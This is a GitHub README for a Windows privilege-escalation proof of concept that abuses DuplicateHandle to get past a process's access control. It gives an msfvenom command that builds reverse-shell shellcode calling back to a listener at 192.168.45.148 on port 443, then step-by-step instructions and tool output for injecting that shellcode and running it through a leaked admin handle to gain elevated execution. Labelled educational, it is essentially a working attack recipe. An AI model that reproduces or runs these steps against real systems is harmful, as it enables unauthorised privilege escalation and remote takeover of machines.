 # BypassDACL
PoC for Bypass DACL in Windows with DuplicateHandle.
You can read more about this code: https://glory-part-39d.notion.site/Security-of-Handles-in-Windows-caaa2531a0914ef0b7779ea366f69bcb
These codes allow you to create a security hole in your program. You can also use this vulnerability and cause privilege escalation.
**Note that this is a POC and is for educational purposes only**
## Run this code
Generate shellcode for AttackerPE.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.148 LPORT=443 -f c -b \x00\x0a\x0d
copy shellcode to AttackerSource.cpp and compile it.

run powershell.exe with Admin privilege
run notepad.exe with normal-user

run vendor.exe with Admin privilege
```
Vendor.exe
Enter the Process name that you want get Handle (like powershell.exe): powershell.exe
Enter the target Process name (like notepad.exe): notepad.exe
[+] SeDebugPrivilege enabled successfully.
[+] PID of powershell.exe 8420
[+] Handle of powershell.exe is OK
[*] Run Process Explorer and find handles of notepad.exe then find a handle named powershell.exe
and write address of handle in AttackerPE code...
[*] Sleep(INFINITE) After running AttackerPE.exe for exit this code press Ctrl+C
```


open **procexp64.exe** and copy address of handle (powershell.exe) from **notepad.exe**
Past address to A
run AttackerPE.exe with normal-user
